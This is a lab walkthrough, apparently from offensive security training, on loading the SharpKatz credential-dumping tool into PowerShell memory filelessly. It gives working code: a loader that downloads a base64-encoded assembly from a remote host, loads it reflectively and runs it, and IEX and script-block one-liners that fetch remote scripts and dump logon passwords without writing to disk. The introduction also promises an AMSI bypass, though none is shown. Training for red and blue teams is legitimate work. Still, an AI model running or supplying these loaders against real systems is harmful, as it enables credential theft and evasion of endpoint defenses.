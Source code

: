 # Lab - PS Loader

> In this lab we'll be showing how powershell can load assemblies in memory and execute them, we'll also demonstrate how  AMSI catches this, how we bypass this and how we make this attack completely fileless (memory only)

# 1. SharpKatz download and compile
```powershell
cd \THEV\Labs\PSLoader
git clone https://github.com/b4rtik/SharpKatz.git
```

Open the sln file with Visual Studio and build the project

Copy the sharpkatz.exe file to C:\THEV\LABS\PSLoader

```powershell
cp C:\THEV\Labs\PSLoader\SharpKatz\SharpKatz\bin\x64\Release\SharpKatz.exe C:\THEV\LABS\PSLoader
```

# 2. BASE64 Encode SharpKatz.exe

```powershell
cd \THEV\Labs\PSLoader
.\b64encoder.ps1
```

# 3. SharpKatz Remote Powershell Loader

```powershell
try {
    $url = "http://10.0.0.7:9090/sharpkatz.b64"
    $base64Assembly = (Invoke-WebRequest -Uri $url -UseBasicParsing).Content
    if ($base64Assembly -is [byte[]]) { $base64Assembly = [Text.Encoding]::UTF8.GetString($base64Assembly) }
    [Reflection.Assembly]::Load([Convert]::FromBase64String($base64Assembly)) | Out-Null
    $arguments = @("--Command") +$args 
    [SharpKatz.Program]::Main($arguments)
} catch {
    Write-Error "Error: $($_.Exception.Message)"
    if ($_.Exception.InnerException) { Write-Error "Inner Exception: $($_.Exception.InnerException.Message)" }
}
```

# 4. IEX

Now, let's host our powershell script and sharpkatz (b64 encoded) on a remote server, and execute it without touching disk - completely in memory. We use IEX (Invoke-Expression) for this.

```powershell
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
```

Since we wrote our script to accept arguments, we need to adapt our oneliner a bit, Since Invoke-Expression (IEX) doesn’t natively support passing arguments to the script it executes, you can wrap the downloaded script content in a `script block` and invoke it with arguments using the `call operator (&)`. This approach avoids writing the script to disk and ensures `"logonpasswords"` is passed correctly to the script’s param block.

```powershell
$scriptContent = (New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
$scriptBlock = [ScriptBlock]::Create($scriptContent)
& $scriptBlock logonpasswords
```

## Explanation
1. Download Script Content: (New-Object Net.WebClient).DownloadString fetches the script content as a string from the HTTP server.
2. Create Script Block: [ScriptBlock]::Create($scriptContent) converts the string into a PowerShell script block, which supports argument passing.
3. Invoke with Arguments: & $scriptBlock `logonpasswords` executes the script block, passing msv as a positional argument. This populates $UserArguments in the script’s param block, resulting in $arguments being @("--command", "logonpasswords").
4. No Disk Write: The script is kept in memory as $scriptContent and never saved to disk.

We can convert this back into a one-liner like this, notice the "&" at the beginning!
```powershell
& ([ScriptBlock]::Create((New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1"))) logonpasswords
```